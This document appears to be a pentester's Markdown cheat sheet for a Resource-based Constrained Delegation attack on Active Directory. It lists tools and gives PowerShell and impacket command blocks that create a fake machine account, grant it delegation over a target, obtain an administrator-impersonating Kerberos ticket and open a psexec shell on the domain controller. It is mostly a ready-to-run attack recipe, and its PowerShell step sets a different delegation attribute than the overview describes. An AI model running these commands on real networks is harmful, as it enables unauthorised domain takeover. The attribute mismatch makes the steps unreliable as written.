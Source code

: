 # Resource-based Constrained Delegation

# Overview
- We have *code execution* on the computer `(COM01)` as the current user.
- User creates a new computer object `(FAKE01)`.
- User leverages the **WRITE** privilege on the `(COM01)` computer object and updates its object's attribute **msDS-AllowedToActOnBehalfOfOtherIdentity** to enable the newly created computer `(FAKE01)` to impersonate and authenticate any domain user that can then access the target system `(COM01)`.      
`(COM01)` trusts `(FAKE01)` due to the modified *msDS-AllowedToActOnBehalfOfOtherIdentity*.
- We request Kerberos tickets for `(FAKE01)`$ with ability to impersonate an admin user.

# Tools Needed
- [PowerMad](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py)
- [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)


# Exploitation
*Assumption is that the attacker has access to the system through winrm*
## Local
```powershell
# Verify if user can add new computers
Get-DomainObject -Identity 'dc=domain,dc=local' | select 

# Upload tools
upload Powermad.ps1 Powermad.ps1
upload Rubeus.exe Rubeus.exe

# Import PowerMad
Import-Module Powermad.ps1

# Set variables
Set-Variable -Name "FakeComputer" -Value "FAKE01"
Set-Variable -Name "target" -Value "DC"

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "FakeComputer").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "target").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakeComputer").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "target").Value -Properties PrincipalsAllowedToDelegateToAccount

# With Rubeus, generate the new fake computer object password hashes. (Keep these for the next step)
.\Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:domain.local
```

## Remote
```bash
# Generate a ccached TGT
getST.py domain.local/FAKE01 -dc-ip dc.domain.local -impersonate administrator -spn http/dc.domain.local -aesKey <aes key from Rubeus output>

# Set KRB5CCNAME environment variable to point to the newly created ccache file
export KRB5CCNAME=administrator.ccache

# Use psexec.py to connect to the remote server
psexec.py domain.local/administrator@dc.domain.local -no-pass -k
```

# References
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)